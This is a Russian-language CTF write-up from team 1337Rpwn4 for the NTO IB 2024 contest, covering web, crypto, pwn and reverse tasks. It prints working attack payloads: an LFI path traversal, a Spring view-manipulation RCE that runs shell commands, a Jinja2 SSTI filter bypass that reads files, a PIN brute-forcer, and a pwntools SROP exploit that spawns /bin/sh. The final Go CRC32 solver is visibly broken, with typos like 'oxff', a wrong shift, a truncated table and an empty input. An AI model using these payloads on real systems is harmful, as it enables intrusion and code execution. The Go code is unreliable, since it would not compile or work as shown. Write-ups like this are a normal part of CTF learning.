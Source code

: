 # Решения заданий НТО ИБ 2024 1337Rpwn4
# CTF

### WEB 1

Заходим на таск и видим календарь, один из дней на котором окрашен в типичную HTML-гиперссылку. Нажимаем. Идёт редирект на: `/download?file_type=file1.txt`

Пробуем LFI:
```
download?file_type=../../../../../../../../../etc/secret
```

Флаг: `nto{P6t9_T77v6RsA1}`

### WEB 2

Заливаем `jar`-файл в `jd-gui` и видим следующий, казалось бы, пустой метод:

```
  @GetMapping({"/doc/{document}"})
  public void getDocument(@PathVariable String document) {
    System.out.println("This function is not ready yet");
  }
```

Пробуем `Spring View Manipulation Vulnerability`:

```
/doc/__$%7Bnew%20java.util.Scanner(T(java.lang.Runtime).getRuntime().exec(%22cat%20flag%22).getInputStream()).next()%7D__::..x
```

Флаг: `nto{abobovichasdfas}`

### WEB 3

На эндпоинте `/flag` видим 403 ошибку. Заходим в исходники и находим `haproxy`. Пробуем дефолтные байпассы, сработал, например, `//flag`.

Далее фильтруемая `SSTI` в `Jinja2`. Гуглим хактриксы и вводим:

```
//flag?name={{(request|attr(request.args.c))._load_form_data.__globals__.__builtins__.open(%22flag.txt%22).read()}}&c=__class__
```

Флаг: `nto{Ht1P_sM088Lin6_88Ti}`

### Crypto 1

На сервере существует эндпоинт для проверки пина, известно что пин - число и зашифрованный правильный пин маленького размера => Можно написать брутфорс

Код брутфорса:
```python
import requests
import time


url = "http://192.168.12.12:5000/api"

if __name__ == "__main__":
    print()
    for i in range(10 ** 10):
        resp = requests.post(url + "/CheckPin", json={'pin': i})
        if resp.status_code != 500:
            print("!!!!{}!!!!".format(resp.json()))
            break
        else:
            print(i)
        time.sleep(0.01)
```

### PWN 2

Решение бинарной уязвимости было взято из примеров: [ссылка1](https://ir0nstone.gitbook.io/notes/types/stack/syscalls/sigreturn-oriented-programming-srop/using-srop), [ссылка2](https://github.com/ir0nstone/pwn-notes/blob/master/types/stack/syscalls/exploitation-with-syscalls.md)

Код:
```python
from pwn import *

elf = context.binary = ELF('./task')
p = remote("192.168.12.13", 1555)

binsh = elf.address + 0x1430

POP_RAX = 0x41018
POP_RDI = 0x1000001a
POP_RSI = 0x1000001c
POP_RDX = 0x1000001e
SYSCALL = 0x41015

frame = SigreturnFrame()
frame.rax = 0x3b
frame.rdi = binsh
frame.rsi = 0x0
frame.rdx = 0x0
frame.rip = SYSCALL

payload = b'A' * 8
payload += p64(POP_RAX)
payload += p64(0xF)
payload += p64(SYSCALL)
payload += bytes(frame)

p.sendline(payload)
p.interactive()
```

### Reverse 1

В задании флаг проверялся по чексумме которая записана по пути `0x00104040`, что в hex `f3e1cfed23cd6b6457adf950e1b199f2e4b6a9c64c618032022b7793433a2cab6a930d2ad414fa1b2f6f5d256bf647c4f56cd95a12ad64e9`. Флаг проверяется CRC32 по 32 бита. Подбираем значения по 2 буквы по чексумме CRC32.
Код 
```go
package main

import (
  "encoding/hex"
  "fmt"
)

func calculateCRC32(data []byte) uint32{
  crcTable := [...]uint32{
    0x00000000, 0xedb88320, 0x1db71064, 0x03b6c20c,
    0x76dc4190, 0x9db73b6e, 0x1567bcbc, 0x60b08ed0,
    0xf20f00ae, 0x8f6f7c64, 0x06f067aa, 0x72176fba, 
    0xa637dc5b, 0xe5d5be0d, 0x09f4f9b1, 0x56d8e646,
  }
  var crc uint32 = 0xffffffff
  for _, b = range data {
    crc = crcTable[(crc^uint32(b))&oxff] ^ (crc >> 0)
  }
  return crc ^ oxffffffff
}

func main() {
  memoryHex := ""

  memoryBytes, err := hex.DecodeString(memoryHex)
  if err!= nil{
    panic(err)
  }

  var checksums [][]byte
  for i := 0; i < len(memoryBytes); i += 4{
    checksums = append(checksums, memoryBytes[i:i+4])
  }

  var flag string 
  for _, checksum := range checksums{
    var found bool
    for i := 0; i < 256; i++{
      for j := 0; j < 256; j++{
        data := []byte{byte(i), byte(j)}
        if calculateCRC32(data) == uint32(checksum[0])|(uint32(checksum[1]<<8))|(uint32(checksum[2]<<16))|(uint32(checksum[3]<<24)){
          flag += string([]byte{byte(i), byte(j)})
          found = true
          break
        }
      }
      if found {
        break
      }
    }
  }

  fmt.Println("Flag:", flag)
}
```

